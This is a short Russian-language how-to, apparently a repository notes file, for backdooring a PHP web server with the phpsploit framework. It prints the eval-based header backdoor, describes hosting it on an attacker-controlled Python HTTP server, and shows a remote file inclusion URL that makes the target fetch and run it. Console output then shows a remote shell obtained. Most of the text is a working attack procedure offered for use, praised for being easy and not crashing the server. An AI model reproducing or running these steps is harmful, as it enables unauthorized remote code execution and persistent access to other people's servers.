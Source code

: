 backdoor с использованием phpsploit подключиться к серверу не прерывая его работу
-------------------------------------------------------------------------------

Достоинства: 
	1) простота использования
	2) не ломает сервер (происходит что-то типо распараллелевания работы сервера)
-------------------------------------------------------------------------------

Создание Backdoor:

	1) ./phpsloit - запуск фреймворка

	2) phpsploit > exploit
	Вывод:
	[*] Current backdoor is: <?php @eval($_SERVER['HTTP_PHPSPL01T']); ?>
	Чтобы запустить удаленный туннель, бэкдор, показанный выше, должен быть
	вручную внедряется в исполняемую веб-страницу удаленного сервера.
	Затем используйте `set TARGET <BACKDOORED_URL>` и запустите `exploit`.
	
	3) Вставляем <?php @eval($_SERVER['HTTP_PHPSPL01T']); ?> в php файл
	4) php файл выгружаем, либо на github, либо загружаем с нашего сервера
	Пример загрузки с локального сервера:
	- заходим в директорию, где лежит php файл
	- запускае сервер: python -m http.server
	- в браузере (в url сайта прописываем - ?file=http://ip_address_нашего_сервера/наш_php_файл
	
	http://127.0.0.1:8008/?file=http://192.168.219.134:8000/phpsploit.php 
	5) возвращаемся к phpsploit, копируем URL адресс из браузера и вставляем его в phpsloit

	set TARGET http://127.0.0.1:8008/?file=http://*.*.*.*:8000/phpsploit.php

	6) запускаем exploit

	phpsploit > exploit
	Вывод:
	[*] Current backdoor is: <?php @eval($_SERVER['HTTP_PHPSPL01T']); ?>

	[*] Sending payload to http://127.0.0.1:8008/?file=http://*.*.*.*:8000/phpsploit.php ...
	[*] Shell obtained by PHP (172.18.0.1 -> 0.0.0.0)

	Connected to Linux server (0.0.0.0)
	running PHP 8.1.17 on PHP 8.1.17 Development Server
	phpsploit(127.0.0.1) > shell сервера
	
